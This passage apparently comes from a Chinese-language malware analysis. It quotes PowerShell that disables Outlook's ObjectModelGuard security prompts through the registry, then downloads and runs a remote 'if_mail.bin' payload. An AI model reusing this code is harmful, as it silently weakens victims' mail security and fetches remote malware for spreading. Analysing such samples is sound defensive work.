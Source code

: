 ```powershell
$crm="ClickToRun\REGISTRY\MACHINE\Software\"
$paths=@("$hks$mso","$hks$wnd$mso","$hks$mso\$crm$mso","$hks$mso\$crm$wnd$mso")

# 在32位Windows上运行的32位Office或在64位Windows上运行的64位Office
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office
# 在64位Windows上运行的32位Office 
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Office 
# 针对即点即用的Office版本
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office\ClickToRun\REGISTRY\MACHINE\Software\Microsoft\Office
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office\ClickToRun\REGISTRY\MACHINE\Software\Wow6432Node\Microsoft\Office
foreach($path in $paths){
	if(test-path Registry::$path){
		get-childitem Registry::$path -name|where-object{$_ -match "\d+" -and (Test-Path Registry::$path\$_\Outlook)}|foreach{
			$skey="Registry::$path\$_\Outlook\Security"
			if(!(Test-Path $skey)){
				New-Item $skey
			}
			Set-ItemProperty $skey ObjectModelGuard 2 -type Dword
			$mflag=test-path $skey
	}}
}
# 关闭告警之后
if($mflag){
	try{
		$localMail=$flase;
		New-Object Threading.Mutex($true,'Global\LocalMail',[ref]$localMail)
	}catch{}
	if($localMail){
		if(!(test-path $env:tmp\godmali3.txt)){
			SIEX "$down_url/if_mail.bin"
		}
	}
}
```

其执行过程中开启的本地DNS转发截图：
